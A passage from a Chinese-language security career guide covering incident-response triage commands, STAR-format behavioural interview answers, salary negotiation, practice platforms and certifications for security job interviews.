3. **检查配置文件**：`config.php`、`application.yml` 等文件中经常有硬编码的密钥、数据库密码、调试模式开启等问题。

#### 9.4.3 应急响应场景

**典型场景**：公司服务器被入侵，请描述你的应急响应流程。

**应急响应六步法**：



**每个阶段的关键动作和注意事项**：

**阶段一：检测与分析（最先做）**

```bash
# Linux 快速排查命令
w                                    # 当前登录用户
last -20                             # 最近登录记录
ps auxf                              # 进程树
netstat -tlnp                        # 监听端口
find /tmp /var/tmp -type f -mtime -1 # 最近一天新增的临时文件
ls -la /root/.ssh/authorized_keys    # SSH 公钥是否被篡改
crontab -l                           # 计划任务
cat /var/log/auth.log | grep "Failed" # 暴力破解痕迹

# Windows 快速排查命令
net user                             # 用户列表
net localgroup administrators        # 管理员组成员
schtasks /query /fo LIST /v          # 计划任务
wmic process list full               # 进程列表
netstat -ano                         # 网络连接
```

**阶段二：遏制（关键决策点）**

遏制措施需要在"阻止攻击"和"保留证据"之间平衡。常见的错误决策：

| 错误做法 | 正确做法 | 原因 |
|----------|----------|------|
| 直接关机 | 保持运行，内存取证后再处置 | 内存中可能有加密密钥、网络连接等关键证据 |
| 直接删除恶意文件 | 先备份再删除，计算哈希值 | 需要保留样本做后续分析 |
| 立即重装系统 | 先完成取证再重装 | 重装会销毁所有入侵痕迹 |
| 直接通知全员 | 先内部响应团队研判再决策 | 防止攻击者通过内部通信获取情报 |

**面试加分点**：提到"取证时间线分析"——将所有发现的事件按时间轴排列，找出攻击者的完整活动轨迹。这体现了你的专业素养。

### 9.5 行为面试与软技能

技术面试决定你"能不能做"，行为面试决定你"适不适合团队"。安全岗位的行为面试有其特殊性——考察你如何在高压环境下做决策、如何与开发团队协作推动安全改进、如何处理道德困境。

#### 9.5.1 STAR 法则深度应用

STAR 法则是回答行为面试问题的黄金框架：

- **S（Situation）**：描述当时的情况和背景（20%时间）
- **T（Task）**：说明你的任务和目标（10%时间）
- **A（Action）**：详细说明你采取的行动（50%时间）
- **R（Result）**：说明行动的结果和影响（20%时间）

**常见错误**：很多候选人在 S 和 T 上花太多时间（讲故事），在 A 上一笔带过（"然后我就修了"），在 R 上没有量化。面试官最想听的是 A——你具体做了什么，为什么这么做。

**安全岗位高频行为面试题与 STAR 答案模板**：

**问题 1：请描述一次你处理安全事件的经历**

```text
Situation（背景）：
2023年3月15日，公司安全监控系统检测到内部Web应用出现异常的数据库查询
流量。该应用日活用户约50万，承载核心业务数据，包括用户个人信息和交易
记录。初步判断存在SQL注入漏洞被外部利用。

Task（任务）：
作为安全团队负责人，我需要在最短时间内确认攻击范围、阻止数据泄露、
修复漏洞，并在24小时内向管理层提交事件报告。

Action（行动）：
1. 立即响应（0-2小时）：
   - 分析WAF日志，确认攻击源IP和攻击Payload特征
   - 部署临时WAF规则拦截匹配Payload的所有请求
   - 通知DBA检查数据库审计日志，评估数据泄露范围

2. 遏制阶段（2-6小时）：
   - 确认攻击者通过用户搜索接口的SQL注入获取了约2000条用户记录
   - 封禁攻击源IP段，强制重置可能泄露的用户会话
   - 紧急修复漏洞代码（将字符串拼接改为参数化查询）

3. 根除阶段（6-18小时）：
   - 对全站进行自动化SQL注入扫描，发现15个同类漏洞
   - 组织开发团队逐一修复，每修复一个立即回归验证
   - 部署RASP运行时防护作为纵深防御

4. 改进阶段（18-24小时）：
   - 更新安全编码规范，将参数化查询列为强制要求
   - 在CI/CD管道中集成SAST/DAST自动化安全测试
   - 建立安全事件响应SOP文档

Result（结果）：
- 漏洞在发现后4小时内完成紧急修复
- 全站排查并修复15个同类SQL注入漏洞
- 后续6个月内同类漏洞复发率为零
- 事件报告获得管理层认可，安全团队预算增加30%
- 自动化安全测试覆盖率达到85%
```

**问题 2：请描述一次你与开发团队发生分歧的经历**

```text
Situation：
公司新上线一个核心业务系统，安全评审发现存在多个高危漏洞（包括越权
访问和文件上传RCE）。开发团队认为这些是"理论风险"，坚持按原计划
上线，因为业务部门已经承诺了上线日期。

Task：
作为安全工程师，我需要说服开发团队和管理层推迟上线修复漏洞，同时
不能破坏与开发团队的协作关系。

Action：
1. 准备技术证据：不只说"有漏洞"，而是录制完整的漏洞利用演示视频，
   展示攻击者如何通过文件上传获取服务器控制权
2. 量化风险：用CVSS评分和历史安全事件数据说明高危漏洞被利用的概率
   和潜在损失（估算数据泄露罚款 + 品牌损失约XX万元）
3. 提出折中方案：不是简单说"不能上线"，而是给出分阶段上线方案——
   先修复RCE和越权漏洞（1-3天），其余低危漏洞在两周内迭代修复
4. 协助修复：安排安全工程师驻场协助开发团队修复最紧急的漏洞，而
   不是只提问题不帮忙

Result：
- 管理层同意延迟3天上线，优先修复2个高危漏洞
- 上线后一周内完成剩余漏洞修复
- 开发团队负责人后续主动邀请安全团队参与设计评审
- 建立了"安全门禁"机制，高危漏洞阻断上线成为标准流程
```

#### 9.5.2 安全岗位特有的行为面试问题

以下问题在安全岗位面试中出现频率很高，需要提前准备：

**道德困境类**：

- "如果你发现同事在未经授权的情况下对内部系统进行渗透测试，你会怎么做？"
- "如果管理层要求你隐瞒一个安全事件的严重程度，你会怎么处理？"

**回答策略**：展现你对职业道德的坚守，同时体现灵活性。核心原则是"合规第一、沟通第二、执行第三"。先明确自己的底线（不能隐瞒安全事件），再展示你如何通过沟通和方案设计让管理层理解风险。

**高压决策类**：

- "生产环境被入侵，业务要求尽快恢复，安全要求保留证据，你如何平衡？"
- "你只有30分钟时间判断一个告警是误报还是真实攻击，你的决策流程是什么？"

**回答策略**：展示结构化思维——先分类定级（事件严重性），再按优先级分配资源（先保命后治病），最后说明决策依据（风险量化而非拍脑袋）。

#### 9.5.3 你有什么问题要问我们的？

面试最后，面试官通常会问"你有什么问题想问我们的？"。这是展示你对公司和岗位深入思考的机会，也是收集信息帮你做决策的机会。

**高价值问题清单**：

| 类别 | 推荐问题 | 展示的特质 |
|------|----------|------------|
| 团队 | "安全团队目前最大的挑战是什么？" | 关注实际问题，非只关心薪资 |
| 成长 | "团队内部有哪些技术分享和学习机制？" | 重视持续学习 |
| 工具 | "团队目前使用什么安全工具栈？" | 关注技术落地 |
| 流程 | "安全团队与开发团队的协作流程是怎样的？" | 理解安全不是孤岛 |
| 文化 | "公司对安全的投入是合规驱动还是业务驱动？" | 判断安全团队在公司的地位 |

**避免的问题**：
- "加班多吗？"（暗示你不愿投入）
- "试用期多长？"（显得不够自信）
- 不问任何问题（显得不关心这份工作）

### 9.6 薪资谈判策略

薪资谈判是面试的最后一步，也是很多人搞砸的环节。安全岗位的薪资谈判有一些行业特殊性。

#### 9.6.1 安全行业薪资结构

| 级别 | 工作年限 | 年薪范围（一线城市） | 典型岗位 |
|------|----------|---------------------|----------|
| 初级 | 0-2 年 | 15-30 万 | 安全运营、初级渗透测试 |
| 中级 | 2-5 年 | 30-60 万 | 渗透测试工程师、安全开发 |
| 高级 | 5-8 年 | 60-100 万 | 高级安全研究员、红队 Lead |
| 专家 | 8+ 年 | 100-200 万 | 安全架构师、安全总监 |

> 注：以上数据为2024-2025年一线城市参考范围。二线、三线城市通常打 6-8 折。甲方大厂（互联网/金融）薪资通常高于乙方安全公司 20-40%。特殊技能（如漏洞挖掘、APT 分析）可获得额外溢价。

#### 9.6.2 谈判关键原则

1. **永远不要先报具体数字**。当被问"你的期望薪资是多少"时，回答："我更关注岗位的发展空间和技术挑战，薪资方面我相信公司有合理的体系，能否先了解一下这个岗位的薪资范围？"
2. **用数据说话**。如果必须报数，给出基于市场调研的范围（如"根据我的了解，类似岗位的市场范围在XX-XX之间"），而不是一个精确数字。
3. **关注总包而非 base**。年终奖、股票/期权、签字费、安家费等都是谈判空间。有的公司 base 低但股票多，总包反而更高。
4. **拿 Offer 做筹码**。如果你有多个 Offer，可以（有礼貌地）透露其他公司的条件，但不要编造——安全圈子很小，信息容易被核实。

### 9.7 面试资源与持续学习

#### 9.7.1 技术面试刷题平台

| 平台 | 适用场景 | 特点 |
|------|----------|------|
| Hack The Box | 渗透测试实战 | 真实靶机环境，难度分级，社区活跃 |
| TryHackMe | 入门到中级 | 引导式学习路径，适合新手 |
| PentesterLab | Web 安全 | 从基础到高级的 Web 漏洞练习 |
| PortSwigger Web Security Academy | Web 安全 | Burp Suite 官方出品，质量极高 |
| Root-Me | 综合安全 | 涵盖 Web、加密、取证、逆向等全领域 |
| CTFtime | CTF 赛事 | 全球 CTF 赛事日历和排名 |
| VulnHub | 内网渗透 | 可下载的虚拟靶机，离线练习 |

#### 9.7.2 面试前速查清单

在面试前一天，按以下清单做最后检查：

```text
□ 技术准备
  □ 复习目标公司的技术栈和安全业务
  □ 准备 3-5 个深度技术问题的结构化答案
  □ 复习近期安全热点事件（近3个月的高危 CVE、重大安全事件）
  □ 准备 2-3 个自己做过的项目案例（用 STAR 法则组织）
  □ 如果有实操环节，提前练习工具使用

□ 环境准备
  □ 如果是远程面试：测试网络、摄像头、麦克风
  □ 如果是现场面试：提前规划路线，预留30分钟缓冲
  □ 准备好简历打印件（2-3份）

□ 心理准备
  □ 准备好"你有什么问题要问我们的"（至少3个）
  □ 预演自我介绍（1分钟版本和3分钟版本）
  □ 不懂的问题坦诚说"这个方向我了解不深，但我的理解是..."，不要编造
```

#### 9.7.3 安全认证与面试的关系

| 认证 | 面试加分程度 | 适合人群 | 备考建议 |
|------|-------------|----------|----------|
| OSCP | ⭐⭐⭐⭐⭐ | 渗透测试方向 | 实战型考试，24小时靶机挑战，必须拿下 |
| OSWE | ⭐⭐⭐⭐ | Web 安全研究 | 高级 Web 漏洞利用，含代码审计 |
| CISSP | ⭐⭐⭐⭐ | 安全管理方向 | 知识面广，偏管理，8大域 |
| CEH | ⭐⭐ | 入门参考 | 偏理论，含金量低于 OSCP |
| CISP | ⭐⭐⭐ | 国内甲方 | 国内认可度高，适合体制内/国企 |
| CRTP/CRTE | ⭐⭐⭐⭐ | 红队/AD安全 | Active Directory 攻防，实用性强 |

### 9.8 常见面试误区与纠正

| 误区 | 纠正 |
|------|------|
| "面试就是背答案" | 面试官考察的是思维过程，不是背诵能力。说"我不确定，但我的推理是..."远好于背一个错误的答案 |
| "技术好就够了" | 安全岗位需要跨团队协作，沟通能力和文档能力同样重要。很多技术强的人倒在行为面试 |
| "不敢说不懂" | 安全面试官期望你诚实。承认不知道但展示你的分析思路，比胡编乱造强一百倍 |
| "只准备技术问题" | HR 面、行为面试、薪资谈判同样决定最终结果 |
| "面试是单向考察" | 面试也是你在考察公司。观察面试官的专业水平、团队氛围、技术深度，决定是否值得加入 |
| "准备太多会显得不自然" | 结构化表达≠背稿。多练习让结构内化为习惯，临场才能自然流畅 |

---

> "安全面试的本质不是考察你知道多少攻击手法，而是考察你能否像一个专业的安全从业者一样思考问题、分析风险、沟通方案、落地执行。技术是基础，思维方式才是决定你天花板的关键。"
